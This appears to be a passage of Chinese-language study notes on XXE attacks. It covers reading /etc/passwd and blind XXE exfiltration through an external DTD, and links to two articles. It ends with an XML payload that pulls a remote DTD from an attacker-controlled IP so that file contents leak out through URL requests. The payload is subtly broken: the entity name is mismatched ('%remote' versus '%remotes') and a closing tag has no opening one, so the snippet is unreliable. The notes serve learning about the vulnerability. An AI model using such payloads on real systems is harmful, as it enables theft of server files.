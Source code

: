 可以在页面看到其中的 /etc/passwd的信息。。



----------

[XXE被提起时我们会想到什么](http://www.mottoin.com/88085.html)

XML外部实体的概念，事实上外部实体是指实体的参数内容，不是当前XML定义的，而是从其他资源引入的。用SYSTEM、PUBLIC来声明。



----------

[XXE漏洞的简单理解和测试](http://www.mottoin.com/92794.html)   这篇文章讲解的很清楚，对于Blind XXE。



解释了 没有回显盲注的XXE


因为无法直接将要读取的文件内容发送到服务器，所以需要通过变量的方式，先把要读取的文件内容保存到变量中，然后通过 URL 引用外部实体的方式，在 URL 中引用该变量，让文件内容成为 URL 的一部分(如查询参数)，然后通过查看访问日志的方式来获取数据。



	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root[
	<!ENTITY % remote SYSTEM 'http://192.168.145.225/1.xml'>
	%remotes]>
	</root>

